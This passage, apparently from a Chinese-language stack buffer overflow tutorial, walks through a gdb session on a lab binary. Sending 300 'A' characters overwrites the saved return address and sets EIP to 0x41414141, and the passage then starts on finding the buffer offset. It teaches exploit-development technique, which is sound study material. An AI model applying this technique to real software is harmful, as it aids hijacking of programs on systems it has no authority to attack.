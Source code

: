 堆栈布局：

![mainstacklayout](images/13/mainstacklayout.png)


当用户输入字符串大于256个字节时，溢出就会发生并覆盖了堆栈中存储的返回地址。这通过发送一系列A来测试它。

##### 测试步骤1：是否可以覆盖返回地址？

```Shell
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

以上输出显示指令指针寄存器（EIP）被AAAA覆盖，这样可以确定覆盖返回地址是可能的！

##### 测试步骤2：目的缓冲区的偏移量是多少？

这里让我们找出返回地址相对与目的缓冲区buf的偏移量。在反汇编并绘制了main的堆栈布局后，现在可以尝试找到偏移位置信息！
